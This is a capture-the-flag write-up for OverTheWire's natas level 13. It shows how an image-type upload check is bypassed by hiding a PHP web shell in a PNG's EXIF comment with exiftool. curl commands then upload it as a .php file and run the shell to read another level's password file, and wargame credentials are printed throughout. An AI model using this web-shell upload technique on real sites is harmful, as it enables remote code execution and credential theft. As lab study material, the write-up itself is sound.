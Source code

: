 # natas level13
natas is CTF with web application.
password will be stored in `/etc/natas_webpass/natas13`.

## using credential is below.
- User:natas13
- Pass:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## using tools.
- shell(curl, base64, etc)
- lynx
- exiftool
check web site by lynx.
`lynx http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org`

this web page like a natas12, but this page has function of file checking(image or not).
~~~
   } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
       echo "File is not an image";
~~~

And I think php code hidden into exif of uploaded file.
At first, I download png file with name of "pic.png".
and I modify exif by following command.
`/bin/exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' ./pic.png`

And I upload it by following command, URL of this is 

`curl -X POST http://natas13.natas.labs.overthewire.org/index.php -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F submit=1 -F filename=jpeg.php -F MAX_FILE_SIZE=1000 -F "uploadedfile=@./jpeg.jpg;type=image/jpg"`

response has following message. Maybe I can use web shell on this URL.
`The file <a href="upload/khbg2r7ksm.php">upload/khbg2r7ksm.php</a> has been uploaded<div id="viewsource">`

And I got password by following command.
`curl -X GET 'http://natas13.natas.labs.overthewire.org/upload/khbg2r7ksm.php?cmd=cat%20/etc/natas_webpass/natas14' -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY --output test.bin`

password include in test.bin.
password:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1


